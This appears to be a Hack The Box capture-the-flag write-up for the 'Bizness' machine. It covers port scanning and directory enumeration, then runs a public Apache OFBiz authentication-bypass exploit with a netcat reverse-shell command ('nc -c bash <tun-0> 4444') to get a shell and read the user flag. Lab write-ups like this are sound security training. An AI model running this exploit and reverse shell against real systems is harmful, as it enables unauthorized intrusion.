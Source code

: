 # Bizness | HTB
### Difficulty Level: Easy
------------------------------------------

add bizness.htb to your /etc/hosts file with:

```bash
echo '<machine-ip>    bizness.htb' >> /etc/hosts
```

Start with nmap scan to discover open ports, services and versions:

```
└─# nmap -T4 10.10.11.252 -oN bizness.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-04 18:32 EDT
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.096s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 2.66 seconds
```

-T4 - Increases the scan's speed.

-oN - saves the output to a file.

There are 3 open ports:

22 - ssh

80 - http

443 - https


browse into the webpage:

![image](https://cdn-images-1.medium.com/max/1000/1*RDiEx9XtlQ-oLb4J91FiNw.png)


gobuster didn't work and I got errors, so I decide to use another tool, dirsearch.

```bash

dirsearch -u https://bizness.htb

Target: https://bizness.htb/

[18:42:05] Starting:                                                                                                          
[18:42:22] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd               
[18:42:24] 400 -  795B  - /a%5c.aspx                                        
[18:42:25] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/  
[18:42:57] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/        
[18:42:59] 302 -    0B  - /common  ->  https://bizness.htb/common/          
[18:42:59] 404 -  762B  - /common/                                          
[18:42:59] 404 -  780B  - /common/config/api.ini                            
[18:42:59] 404 -  779B  - /common/config/db.ini                             
[18:43:03] 302 -    0B  - /content  ->  https://bizness.htb/content/        
[18:43:03] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[18:43:03] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[18:43:04] 200 -   34KB - /control/                                         
[18:43:04] 200 -   34KB - /control
[18:43:04] 200 -   11KB - /control/login                                    
[18:43:09] 404 -  741B  - /default.jsp                                      
[18:43:09] 404 -  763B  - /default.html                                     
[18:43:14] 302 -    0B  - /error  ->  https://bizness.htb/error/            
[18:43:15] 404 -  761B  - /error/                                           
[18:43:15] 404 -  770B  - /error/error.log                                  
[18:43:15] 302 -    0B  - /example  ->  https://bizness.htb/example/        
[18:43:24] 302 -    0B  - /images  ->  https://bizness.htb/images/

```

There is an interesting path: /control/login 

 OFBiz Login page out there.

 ![image](https://cdn-images-1.medium.com/max/1000/1*Mz5kqCyzrCJEhqxO5UQuRQ.png)

 I tried to get in with default credentials but without any success.

So let's find an exploit for this service and the specified version. 


![image](https://cdn-images-1.medium.com/max/1000/1*C7BTmP6IdRsGEk40ZWtH-w.png)


After some searching in google I found an exploit:

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

So I used git clone to grab the repository.


```bash
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash <tun-0> 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

I run the exploit with a command to connect my machine with netcat.
then, create netcat listener to get the connection.

```bash
nc -lnvp 4444
```

and there is a shell.

```bash
└─# nc -lnvp 4444                          
listening on [any] 4444 ...
connect to [tun-0] from (UNKNOWN) [10.10.11.252] 38330
whoami
ofbiz
python3 -c 'import pty; pty.spawn("/bin/bash")'
ofbiz@bizness:/opt/ofbiz$
```

Grab user.txt flag.

```bash
ofbiz@bizness:~$ cat user.txt
cat user.txt
********************************
ofbiz@bizness:~$
```











 











